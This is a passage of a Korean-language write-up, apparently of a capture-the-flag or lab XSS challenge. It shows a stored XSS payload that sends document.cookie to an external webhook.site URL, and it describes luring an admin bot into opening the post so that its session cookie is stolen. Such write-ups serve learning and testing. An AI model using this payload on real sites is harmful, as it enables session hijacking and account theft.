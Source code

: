 ```html
<script>new Image().src='https://webhook.site/00da818a-c861-444c-8a3a-c50bd3e46a01?cookie='+document.cookie</script>
```

- **게시물 클릭 후 Webhook으로 쿠키 전송**

![xss1 쿠키 탈취](/assets/web-screenshots/stored-reflected-xss/xss1_cookie.png)

이제 관리자가 해당 게시글을 열람하면 삽입된 JavaScript가 실행되고, `document.cookie` 값을 포함한 요청이 webhook 서버로 전송된다.

관리자 봇이 스크립트가 들어간 URL을 클릭하게 만들어, 쿠키를 외부로 보내도록 하겠다.

![xss1 관리자 봇 접속 완료](/assets/web-screenshots/stored-reflected-xss/xss1_admin_access.png)

관리자 봇에게 XSS가 삽입된 URL을 전달하여 요청을 유도하였고, 이후 Webhook에서 쿠키가 정상적으로 수신되었는지 확인한다.
